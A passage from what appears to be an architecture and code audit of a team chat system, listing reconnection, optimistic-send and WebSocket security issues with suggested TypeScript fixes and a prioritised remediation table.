**Fix (true optimistic send):**

```typescript
const handleSend = async () => {
  if (!canSend || !enquiryId) return;
  
  const tempId = `temp-${Date.now()}`;
  const optimisticMsg: ThreadMessage = {
    id: tempId,
    content: body,
    direction: 'OUTBOUND',
    channel,
    from: 'me',
    to,
    subject: subject || null,
    deliveryStatus: 'PENDING',
    createdAt: new Date().toISOString(),
    sentByUser: null,
  };
  
  // 1. Immediately show the message
  onMessageSent(optimisticMsg);
  setBody(''); setSubject('');
  setSending(true);
  
  try {
    // 2. Actually send
    const sent = await ensureAndSend();
    
    // 3. Replace temp message with real one
    replaceMessage(tempId, { ...optimisticMsg, id: sent.id });
  } catch (err) {
    // 4. Mark as failed, show retry
    markMessageFailed(tempId);
    setError(err.message);
  } finally {
    setSending(false);
  }
};
```

---

### 14.2 No Retry UI for Optimistic Send Failures

**What breaks:**  
If `sendDraft` fails (network error, server 500), the error message appears above the composer. But the message was NOT added to the thread (the optimistic add happens after HTTP returns). So there's no in-thread "failed to send — retry" indicator. The user doesn't know which message failed.

**Fix:**  
Add failed messages to the thread state with `deliveryStatus: 'FAILED'` and a retry button in the bubble, similar to WhatsApp's red error circle.

---

## 15. Reconnection Handling

---

### 15.1 Stale JWT After Token Refresh

**File:** `frontend/lib/socket.ts:26`

**What breaks:**  
The JWT is fetched once during initial socket connection. When the JWT expires (default NestJS JWT: 1 day, but if using shorter expiry or silent refresh), the socket reconnects with the expired token. Auth fails. The `auth-error` handler redirects to `/login`, logging the user out mid-session.

**Why it breaks:**  
Socket.IO stores `auth` options at connection time. Auto-reconnect reuses the same options:
```typescript
socket = io('...', { auth: { token } }); // token captured at T=0
// At T=1h, token expires. Socket reconnects with T=0 token.
```

**Fix:**  
Use a function for the `auth` option (Socket.IO supports this):
```typescript
socket = io('http://localhost:3001', {
  auth: async (cb) => {
    // Always fetch fresh token
    const res = await fetch('/api/socket');
    const { token } = await res.json();
    cb({ token });
  },
});
```

---

### 15.2 Room Membership Not Restored After Reconnect

**File:** `frontend/lib/socket.ts:43`

**What breaks:**  
When the socket reconnects, all server-side room memberships are lost (they're stored in memory on the server). The `connect` event fires but no re-join logic runs. After reconnect:
- No `outbound:sent` events received
- No `outbound:delivery_updated` events received
- No `chat:new-message` room events (if implemented)

**Why it breaks:**  
```typescript
socket.on('connect', () => {
  console.log('🔌 WebSocket connected:', socket?.id); // No room re-join
});
```

**Fix:**  
Maintain a registry of joined rooms and re-join on reconnect:

```typescript
// In a useSocketRoom hook:
const joinedRoomsRef = useRef<Set<string>>(new Set());

function joinRoom(sock: Socket, roomType: string, roomId: string) {
  const room = `${roomType}:${roomId}`;
  joinedRoomsRef.current.add(room);
  sock.emit(`${roomType}:join`, { [`${roomType}Id`]: roomId });
}

sock.on('connect', () => {
  // Re-join all rooms after reconnect
  joinedRoomsRef.current.forEach(room => {
    const [type, id] = room.split(':');
    sock.emit(`${type}:join`, { [`${type}Id`]: id });
  });
});
```

---

### 15.3 No Missed-Message Recovery After Reconnect

**What breaks:**  
Messages sent while the client was disconnected are never received. The contact list shows stale previews. The chat thread shows gaps. Users must manually refresh.

**Fix:**  
Implement a "catch-up" mechanism:

```typescript
// Store last-seen timestamp per room
const lastSeenRef = useRef<Map<string, string>>(new Map());

sock.on('connect', async () => {
  // For each active room, fetch messages since last-seen
  for (const [roomId, lastAt] of lastSeenRef.current) {
    const missed = await fetch(`/api/messages?enquiryId=${roomId}&after=${lastAt}`);
    // merge into state
  }
});
```

---

## 16. Presence / Typing / Read Receipt System

---

**Current state: None of these exist.**

The system has no:
- Typing indicators ("Ahmad is typing...")
- Online/offline presence ("3 agents online")
- Message read receipts (who on the team read the enquiry)
- "Seen by" indicators

These are expected features in a chat system used by a team managing live leads.

### 16.1 Typing Indicators — Architecture Plan

**What's needed:**
```typescript
// Frontend: emit on input
sock.emit('typing:start', { enquiryId, userId });
// Debounced stop
sock.emit('typing:stop', { enquiryId, userId });

// Backend gateway:
@SubscribeMessage('typing:start')
handleTypingStart(@ConnectedSocket() client, @MessageBody() data) {
  client.to(`enquiry:${data.enquiryId}`).emit('typing:update', {
    userId: client.data.user.userId,
    isTyping: true,
  });
}
```

**Scaling risk:**  
Typing events are high-frequency (per keystroke). At 20 agents × 300 chars/minute = 6,000 events/minute across the cluster. Implement client-side debounce (emit only on start/stop, not per keystroke) and TTL-based server cleanup (typing state expires after 5 seconds without update).

### 16.2 Read Receipts for Team Awareness

Knowing which agent has seen a customer message prevents duplicate responses:

```prisma
model MessageRead {
  id        String @id @default(uuid())
  messageId String
  userId    String
  readAt    DateTime @default(now())
  @@unique([messageId, userId])
}
```

---

## 17. Production-Grade Improvements

### Priority 1 — Must fix before production

| # | Issue | File | Fix |
|---|-------|------|-----|
| 1 | WebSocket gateway has no auth | `outbound.gateway.ts:12` | Add `handleConnection` JWT validation |
| 2 | Webhook endpoints unauthenticated | `outbound.controller.ts:262` | Add Twilio signature validation |
| 3 | Socket.IO in-memory adapter | `outbound.module.ts` | Add `@socket.io/redis-adapter` |
| 4 | `contact-list:update` never emitted | backend (missing) | Add inbound event → contact list broadcast |
| 5 | ChatView never joins enquiry room | `ChatView.tsx` | Add `enquiry:join` in socket setup |
| 6 | Delivery status regression | `outbound.service.ts:141` | Add status advancement guard |

### Priority 2 — Fix before scale

| # | Issue | File | Fix |
|---|-------|------|-----|
| 7 | `getSocket()` race condition | `socket.ts:14` | Add connection promise lock |
| 8 | Auto-save vs send race | `ChatView.tsx:505` | Add sending semaphore |
| 9 | No BullMQ concurrency | `outbound.processor.ts:31` | `@Processor(QUEUE, { concurrency: 20 })` |
| 10 | JWT stale on reconnect | `socket.ts:26` | Use function auth option |
| 11 | No room re-join on reconnect | `socket.ts:43` | Add reconnect room registry |
| 12 | Draft expiry not enforced | `schema.prisma` | Add `@Cron` cleanup job |

### Priority 3 — Quality improvements

| # | Issue | File | Fix |
|---|-------|------|-----|
| 13 | Auto-scroll on delivery updates | `ChatView.tsx:334` | Check message count delta |
| 14 | Thread has no pagination | `conversation.services.ts:90` | Page + virtual scroll |
| 15 | Sequential webhook processing | `delivery-tracking.service.ts:38` | Parallel batch processing |
| 16 | Missing composite index | `schema.prisma:437` | Add `(enquiryId, direction, createdAt)` |
| 17 | Optimistic UI blocks on HTTP | `ChatView.tsx:527` | True optimistic UI with rollback |
| 18 | No sticky sessions | `socket.ts:26` | `transports: ['websocket']` |
| 19 | Unread count client-only | `ContactList.tsx` | Persist `lastReadAt` server-side |
| 20 | Enquiry array ordering assumed | `ChatView.tsx:358` | Sort by `createdAt` defensively |

---

## 18. Issue Priority Matrix

```
SEVERITY →         LOW         MEDIUM       HIGH        CRITICAL
LIKELIHOOD ↓
─────────────────────────────────────────────────────────────────
CERTAIN            │            │ Auto-scroll │ contact-  │ WS no auth
                   │            │ overscroll  │ list dead │ Delivery
                   │            │             │ ChatView  │ regression
                   │            │             │ no room   │
───────────────────┼────────────┼─────────────┼───────────┼────────────
PROBABLE           │ Draft      │ Thread no   │ getSocket │ No Redis
                   │ expiry not │ pagination  │ race      │ WS adapter
                   │ enforced   │             │ condition │
───────────────────┼────────────┼─────────────┼───────────┼────────────
POSSIBLE           │ Memory:    │ Sequential  │ Auto-save │ Webhooks
                   │ Set growth │ webhooks    │ vs send   │ unauthenticated
                   │            │ DB index    │ race      │
───────────────────┼────────────┼─────────────┼───────────┼────────────
UNLIKELY           │ useCallback│             │ JWT stale │
                   │ recreated  │             │ reconnect │
                   │            │             │ no re-join│
```

### Top 5 Architecture Flaws — Executive Summary

**1. Zero WebSocket Security (CRITICAL)**  
The WebSocket gateway has no authentication and no room authorization. Any client on the internet can join any enquiry room and receive live message events.

**2. `contact-list:update` is Dead Code (HIGH)**  
The primary real-time feature of the contact list sidebar — showing new messages in the left panel without a refresh — does not work. The event listener exists but the server never emits the event.

**3. Single-Instance Socket.IO Trap (CRITICAL under scale)**  
Using the default in-memory Socket.IO adapter means horizontal scaling is impossible without splitting traffic across instances. The moment a second server is added, 50% of real-time events silently drop.

**4. ChatView Never Joins Its Enquiry Room (HIGH)**  
Delivery status ticks (✓, ✓✓, blue ✓✓) never update on the main messaging page because `ChatView` doesn't join the room that receives those events. A foundational feature of the UI is broken.

**5. Race Condition: Auto-save + Send = Corrupt Draft State (MEDIUM)**  
The 3-second auto-save timer can fire concurrently with the send action, leading to 400 errors on draft updates, silent failures, and occasional stuck ACTIVE drafts. At high typing speed, this is reproducible in every session.
